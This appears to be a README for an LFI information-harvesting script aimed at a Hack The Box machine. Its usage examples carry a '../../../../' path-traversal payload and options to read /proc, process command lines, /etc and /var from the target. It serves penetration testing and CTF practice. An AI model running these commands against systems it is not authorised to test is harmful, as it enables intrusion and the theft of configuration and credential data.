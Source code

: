 # 💫 Linux Sysinfo Harvester via LFI 💫
Linux System Information Harvesting through Local File Inclusion (LFI) Vulnerability 🐱

```
└──╼ $python3 LFIH.py -u http://bagel.htb:8000/?page=../../../../ -h

                      __      _
                    o'')}____//
                    `_/      )
                    (_(_/-(_/
    ██      ███████ ██ ██   ██ 
    ██      ██      ██ ██   ██ 
    ██      █████   ██ ███████ 
    ██      ██      ██ ██   ██ 
    ███████ ██      ██ ██   ██                        
                    
                    Yazidou                                                                   

usage: LFIH.py [-h] -u U [-t T] [-proc] [-net] [-cmdlines] [-etc] [-var] [-all] [-p P] [-x64]

[*] Simple script for information retrieving through Local File Inclusion.

optional arguments:
  -h, --help  show this help message and exit
  -u U        Target URL
  -t T        Threads
  -proc       Retrieving on /proc
  -net        Network status (Routes, TCP, UDP, ARP) from /proc/net
  -cmdlines   Retrieving of 1-MAX_PID cmdlines on /proc/{PIDs}/cmdlines (default MAX_PID for x32, use -x64 to increase)
  -etc        Retrieving on /etc
  -var        Retrieving on /var
  -all        Retrieving all of the above
  -p P        Pathern to skip for cmdlines (i.e. NotFounds strings)
  -x64        Targeting an x64 machine (x32 by default)

```

# Examples 👨‍🎤
Retrieving processus informations : <br>
```python3 LFIH.py -u http://bagel.htb:8000/?page=../../../../ -proc```

Retrieving processes cmdlines (args) through 100 sync threads to increase speed : <br>
```python3 LFIH.py -u http://bagel.htb:8000/?page=../../../../ -cmdlines -t 100```

Retrieving processes cmdlines (args) with 50 threads and escaping "File not found" response string : <br>
```python3 LFIH.py -u http://bagel.htb:8000/?page=../../../../ -cmdlines -t 50 -p "File not found"```

# Screenshots 🍩
<img src="https://i.ibb.co/HVHYcmw/image.png">
<img src="https://i.ibb.co/jk5H2hb/image.png">





